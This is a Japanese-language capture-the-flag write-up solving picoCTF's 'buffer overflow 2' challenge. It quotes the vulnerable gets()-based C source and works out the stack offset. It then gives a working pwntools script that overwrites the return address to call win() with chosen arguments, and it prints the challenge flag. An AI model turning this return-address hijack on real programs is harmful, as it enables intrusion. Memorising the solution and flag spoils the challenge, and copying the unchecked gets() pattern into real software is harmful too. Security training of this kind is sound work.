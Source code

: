 # buffer overflow 2:Binary Exploitation

Control the return address and arguments  
This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](vuln)? You can view source [here](vuln.c). And connect with it using `nc saturn.picoctf.net 60902`

# Solution

とりあえず`nc saturn.picoctf.net 60902`を実行してみる。
```
$ nc saturn.picoctf.net 60902
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
入力した文字がそのまま出てくるようだ。ソースコードを見てみる。
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```
`BUFSIZE=100`でbufをそのまま出力している。
```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
```
flagが出てきそうなwin関数がある。`arg1==0xCAFEF00D`かつ`arg2==0xF00DF00D`である必要がありそうだ。win関数のアドレス値は`64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win`より、0x08049296である。`何らかの文字列100+12文字+0x08049296+リターンアドレス+arg1+arg2`のような入力になるはず。

以下、実行コード。
```python solve.py
from pwn import *

p = remote("saturn.picoctf.net", 60902)

payload = b"a"*112
payload += p32(0x08049296)
payload += p32(0x08049372) # ここは何でも良い
payload += p32(0xCAFEF00D) + p32(0xF00DF00D)

p.sendline(payload)

p.interactive()
```
flagが得られた。

`picoCTF{argum3nt5_4_d4yZ_27ecbf40}`

